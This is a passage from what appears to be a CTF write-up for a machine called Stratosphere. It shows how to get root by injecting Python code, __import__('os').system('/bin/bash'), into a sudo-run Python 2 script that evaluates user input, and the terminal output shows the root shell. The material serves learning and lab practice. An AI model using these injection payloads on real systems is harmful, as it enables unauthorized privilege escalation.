 Since, the code doesn't import OS, Subprocess or any other library (just hashlib) before inputs are being called. So without importing the OS module. It will give a NameError saying that name 'os' is not defined.
Well, there is a way around this...
There's a global ``__import__()`` function in python. It accepts a module name and imports it.

Where earlier only passing ``os.system("whoami")``  would've worked, it changes to: 
``__import__("os").system("whoami")``

```bash
richard@stratosphere:~$ sudo  /usr/bin/python2 /home/richard/test.py
Solve: 5af003e100c80923ec04d65933d382cb
__import__("os").system("whoami")
root
Traceback (most recent call last):
  File "/home/richard/test.py", line 38, in <module>
    question()
  File "/home/richard/test.py", line 8, in question
    md5.update(q1.encode())
AttributeError: 'int' object has no attribute 'encode'
```
So, even though I see a lot of errors, I don't miss that `root` just after I passed the input.

Let's get that root shell:
```bash
richard@stratosphere:~$ sudo  /usr/bin/python2 /home/richard/test.py
Solve: 5af003e100c80923ec04d65933d382cb
__import__("os").system("/bin/bash")
root@stratosphere:/home/richard# id
uid=0(root) gid=0(root) groups=0(root)
```
